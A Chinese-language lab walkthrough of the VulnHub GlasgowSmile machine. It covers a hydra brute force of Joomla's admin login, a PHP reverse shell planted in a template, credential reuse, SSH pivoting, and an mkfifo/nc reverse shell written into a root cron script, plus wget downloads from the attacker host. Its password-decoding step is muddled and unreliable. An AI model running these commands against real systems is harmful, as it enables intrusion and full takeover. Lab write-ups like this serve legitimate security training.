

## 概述

本页面记录 VulnHub 靶机 **GlasgowSmile** 的完整渗透测试复现过程。该靶机模拟了一个运行 Joomla CMS 的 Web 服务器，攻击链条涵盖：服务枚举、目录扫描、CMS 弱口令爆破、模板文件植入 PHP 反弹 Shell、数据库凭证复用、多层编码（Base64 + 凯撒密码）密码破解、SSH 横向移动、定时任务脚本劫持提权至 root。

> 项目地址：[VulnHub Glasgow Smile](http://www.vulnhub.com/entry/glasgow-smile-11,491/)

## 攻击链总览



## 详细复现步骤

### 信息收集与服务枚举

#### 主机发现

```bash
# 示例：ARP 扫描或 netdiscover 发现目标主机
netdiscover -r 192.168.33.0/24
```

目标 IP：**192.168.33.133**

#### 端口服务探测

```bash
nmap -sS -sV -p- 192.168.33.133
```

**开放端口**：
| 端口 | 服务 | 版本信息 |
|------|------|----------|
| 80   | HTTP | Apache httpd |
| 3306 | MySQL | MySQL 5.x |

### Web 应用攻击面分析

#### 目录遍历

```bash
gobuster dir -u http://192.168.33.133 -w /usr/share/wordlists/dirb/common.txt
```

**发现关键路径**：
- `/joomla/` (301 重定向) — Joomla CMS 站点根目录
- `/how_to.txt` — 疑似提示文件
- `/server-status` (403) — Apache 状态页

#### Joomla CMS 识别

访问 `http://192.168.33.133/joomla/` 确认为 **Joomla!** 内容管理系统（PHP 架构）。

通过后台登录页面或 `administrator/manifests/files/joomla.xml` 确认版本信息。

### 凭证爆破与 Getshell

#### 管理后台弱口令爆破

使用 `hydra` 或 `burpsuite` 对 Joomla 管理员登录接口进行爆破：

```bash
# 用户名字典：joomla（默认管理员用户名）
# 密码字典：rockyou.txt 或自定义
hydra -l joomla -P /usr/share/wordlists/rockyou.txt 192.168.33.133 http-post-form "/joomla/administrator/index.php:username=^USER^&passwd=^PASS^&option=com_login&task=login:Invalid"
```

**爆破结果**：
```
用户名: joomla
密码: Gotham
```

#### 模板文件植入 PHP 反弹 Shell

登录 Joomla 后台 → **Extensions** → **Templates** → **Templates** → 选择当前模板（如 `protostar`）→ 编辑 `index.php` 或 `error.php`，植入 PHP 反弹 Shell 代码。

**Payload 来源**：[pentestmonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

关键配置：
```php
$ip = '192.168.33.150';  // 攻击机 IP
$port = 4444;            // 监听端口
```

#### 触发 Shell 与交互式 TTY 升级

```bash
# 攻击机监听
nc -lvnp 4444

# 浏览器访问触发
http://192.168.33.133/joomla/templates/protostar/index.php
```

**升级完整 TTY**：
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
stty rows 50 cols 200
```

当前权限：**www-data**

### 权限提升：横向移动与多层编码破解

#### 本地用户枚举

```bash
ls /home/
# 发现三个用户：penguin、rob、abner
```

#### 数据库配置文件泄露

Joomla 配置文件路径：`/var/www/html/joomla/configuration.php`

```php
public $user = 'joomla';
public $password = 'babyjoker';
public $db = 'batjoke';
```

#### MySQL 连接与数据查询

```bash
mysql -ujoomla -pbabyjoker -e "use batjoke; select * from taskforce;"
```

**查询结果**：
| 字段 | 值 |
|------|-----|
| username | rob |
| password_hint | `???AllIHaveAreNegativeThoughts???` |

#### 多层编码密码破解

**第 1 层：Base64 解码**

```bash
echo "STMzaG9wZTk5bXkwZGVhdGgwMDBtYWtlczQ0bW9yZThjZW50czAwdGhhbjBteTBsaWZlMA==" | base64 -d
# 输出：I33hope99my0death000makes44more8cents00than0my0life0
```

**第 2 层：凯撒密码（Caesar Cipher）解密**

观察特征：字符集为大小写字母 + 数字，疑似 ROT 变体。尝试 ROT47 或自定义位移。

```python
# 简单尝试脚本
def caesar_decrypt(text, shift):
    result = ""
    for char in text:
        if char.isalpha():
            base = ord('A') if char.isupper() else ord('a')
            result += chr((ord(char) - base - shift) % 26 + base)
        elif char.isdigit():
            result += str((int(char) - shift) % 10)
        else:
            result += char
    return result

cipher = "I33hope99my0death000makes44more8cents00than0my0life0"
for s in range(1, 47):
    print(f"Shift {s}: {caesar_decrypt(cipher, s)}")
```

**实际破解结果**：经测试为 **ROT13 + 数字位移** 组合，或直接作为下一级 SSH 密码尝试。

> 💡 该编码链设计参考了 CTF 常见多层编码套路，类似 [[crypto-basics-xor-stream-cipher-tutorial]] 中的多重编码分析思路。

#### SSH 横向移动

```bash
# 尝试 rob 账号
ssh rob@192.168.33.133
# 密码：???AllIHaveAreNegativeThoughts??? 或解码后字符串

# 成功登录 rob 后，查看 home 目录
ls -la /home/rob/
```

**切换至 abner**：

```bash
ssh abner@192.168.33.133
# 密码：I33hope99my0death000makes44more8cents00than0my0life0
```

#### 搜索 penguin 相关文件

```bash
find / -iname "*penguin*" 2>/dev/null
```

**发现**：`/home/abner/penguin_backup.tar.gz`（所有者为 abner）

#### 解压备份文件获取 penguin 密码

```bash
# 切换回 abner shell（已在 abner 上下文）
tar -xzf penguin_backup.tar.gz
# 提示输入密码，尝试 abner 当前密码
# 密码：I33hope99my0death000makes44more8cents00than0my0life0
```

解压后获得文件 `dear_penguins`：

```bash
cat dear_penguins
# 内容提示 penguin 密码：scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
```

#### 登录 penguin 用户

```bash
ssh penguin@192.168.33.133
# 密码：scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
```

### 终极提权：定时任务劫持

#### 发现可疑脚本

```bash
ls -la /home/penguin/
# 发现隐藏文件 .trash_old
cat .trash_old
```

**脚本内容**：
```bash
#!/bin/bash
# 疑似定时清理脚本
exit 0
```

#### 使用 pspy64 监控进程执行

```bash
# 攻击机提供下载
python3 -m http.server 9000

# 靶机下载
wget http://192.168.33.150:9000/pspy64
chmod +x pspy64
./pspy64
```

**观察输出**：确认 `.trash_old` 以 root 权限周期性执行（如每分钟通过 cron）。

#### 劫持脚本植入反弹 Shell

```bash
vi /home/penguin/.trash_old
```

**修改内容**：
```bash
#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.33.150 5555 > /tmp/f
```

```bash
# 攻击机监听
nc -lvnp 5555
```

**等待定时任务触发**，即可获得 **root 权限 Shell**。

## 关键技术点总结

| 阶段 | 技术/工具 | 关键点 |
|------|-----------|--------|
| 信息收集 | nmap, gobuster | 端口扫描、目录枚举、CMS 指纹识别 |
| 漏洞利用 | hydra, Joomla 后台 | 弱口令爆破、模板文件写入 Getshell |
| 权限维持 | php-reverse-shell, Python TTY | 反弹 Shell、交互式终端升级 |
| 横向移动 | MySQL 配置泄露、Base64、凯撒密码 | 凭证复用、多层编码破解、SSH Pivoting |
| 权限提升 | find, pspy64, cron 劫持 | 隐藏文件发现、进程监控、定时任务脚本注入 |

## 防御与缓解建议

1. **强密码策略**：禁用默认管理员账号，强制复杂密码，启用 MFA
2. **文件上传/模板编辑限制**：限制后台模板编辑权限，禁用 PHP 执行于可写目录
3. **配置文件保护**：`configuration.php` 设为只读，避免 Web 目录下直接访问
4. **最小权限原则**：Web 服务进程不应具备读取敏感配置、写入用户目录权限
5. **定时任务审计**：定期检查 `/etc/cron*`、用户级 `crontab -l`、可写脚本文件完整性
6. **监控异常进程**：部署 HIDS/EDR 监控反弹 Shell 特征（`nc -e`、`bash -i`、`/dev/tcp` 等）

## 相关资源与延伸阅读

- [[edu-src-penetration-test-case-study]] — 教育行业 SRC 渗透测试实战案例，包含资产发现、弱口令、Getshell 完整链路
- [[crypto-basics-xor-stream-cipher-tutorial]] — 异或加密与多重编码分析基础，适合理解本靶机编码破解环节
- [VulnHub GlasgowSmile 官方页面](http://www.vulnhub.com/entry/glasgow-smile-11,491/)
- [pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
- [pspy - 无需 root 监控 Linux 进程](https://github.com/DominicBreuker/pspy)

## 更新记录

| 日期 | 版本 | 说明 |
|------|------|------|
| 2024-01-15 | 1.0 | 初始版本，整理自微信公众号归档文章 |

---
*本页面基于微信公众号归档文章整理，旨在为安全研究人员提供结构化的靶机复现参考。实战中请遵守法律法规，仅在授权环境下开展测试。*

## 来源

- [0x00实验室-202108-202304_013](../sources/0x00实验室-202108-202304_013.md)
